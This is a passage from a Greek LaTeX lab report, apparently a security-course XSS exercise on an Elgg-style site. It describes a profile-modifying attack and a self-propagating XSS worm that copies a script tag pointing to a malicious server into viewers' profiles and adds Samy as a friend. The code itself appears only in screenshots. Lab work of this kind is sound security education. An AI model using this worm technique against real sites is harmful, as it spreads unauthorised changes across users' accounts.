			
\includegraphics[width=1\textwidth]{image/5.3.PNG}		
\end{center}
\noindent
Συνδεόμαστε στο προφίλ τις alice και ανοίγουμε το προφίλ του Samy.
Παρατηρούμε ότι έχει σταλθεί ένα request από το profile/edit.
Ανοίγοντας το βλέπουμε τα δεδομένα που σταλθήκαν.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/5.4.PNG}		
\end{center}
\noindent
Μπαίνοντας στο profile της Alice παρατηρούμε ότι έχει τροποποιηθεί.
\begin{center}
			
\includegraphics[width=1\textwidth]{image/5.5.PNG}		
\end{center}
\noindent
\begin{itemize}
	\item Την γραμμή 1 της χρησιμοποιούμε για να μην εκτελείτε το request 
	όταν όταν ανοίγουμε το profile του Samy από τον ίδιον των Sumy
\end{itemize}

\section{Αυτό-πολλαπλασιαζόμενο XSS worm}
\subsection*{Απάντηση:}

\noindent
\textbf{Προσέγγιση συνδέσμου}\\

\noindent
Για να το κάνουμε αυτό-πολλαπλασιαζόμενο αυτό που χρειάζεται να κάνουμε
είναι όταν κάποιος βλέπει ένα μολυσμένο προφίλ να αντιγράφετε στο script tag
με το source του κακόβουλου κώδικα στο προφίλ του. Θέλουμε ώμος και
οποίος μολύνετε να μας κάνει και add, επόμενος συνδυάζουμε της δυο
προηγούμενες δραστηριότητες για να φτιάξουμε το νέο script μας.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/6.1.PNG}		
\end{center}
\noindent 
οπός βλέπουμε έχουμε χρησιμοποίηση τον ίδιο ακριβός κώδικα
με τις δυο προηγούμενες δραστηριότητες. Η μονή διάφορα είναι η μεταβλητή
scriptcall που τοποθετείτε στο desc μετά το \&description=, και με αυτόν τον 
τρόπο αντιγραφή το script tag με το source του server με των κακόβουλου
κώδικα.

\noindent 
Αλλάζουμε και πάλι το link με το νέο.
\begin{center}
			
\includegraphics[width=1\textwidth]{image/6.0.PNG}		
\end{center}
\noindent
Συνδεόμαστε στο προφίλ του Boby για να δούμε τη θα συμβεί.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/6.2.PNG}		
\end{center}

\noindent
Μπαίνουμε στο προφίλ του Samy και παρατηρούμε με το HTTP Header Live ότι
έχουν σταλεί δυο Request.
\begin{center}
			
\includegraphics[width=1\textwidth]{image/6.3.PNG}		
\end{center}
\noindent 
Ανοίγοντας τα παρατηρούμε ότι το ένα είναι GET και το άλλο POST.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/6.4.PNG}		
\end{center}

\noindent
Μπαίνοντας στο προφίλ του Boby παρατηρούμε ότι το description έχει
τροποποιηθεί.
\begin{center}
			
\includegraphics[width=1\textwidth]{image/6.5.PNG}		
\end{center}
\noindent
Ανοίγοντας το Edit profile του Boby βλέπουμε ότι έχει μολυνθεί και
μπορεί να μολύνει άλλους.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/6.6.PNG}		
\end{center}
\noindent
Για να το επιβεβαιώσουμε κάνουμε την ίδια διαδικασία άλλα αυτήν την
φορά με την Alice να βλεπει το προφίλ του Boby.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/6.7.PNG}		
\end{center}

\noindent
Μπαίνοντας στο προφίλ του παρατηρούμε ότι τα Request σταλθήκαν. Και για 
του λογού το αληθές μπαίνοντας στο προφίλ της Alice βλέπουμε ότι όντος
έχει μολυνθεί.


\begin{center}
			
\includegraphics[width=1\textwidth]{image/6.8.PNG}		
\end{center}
\noindent



\begin{center}
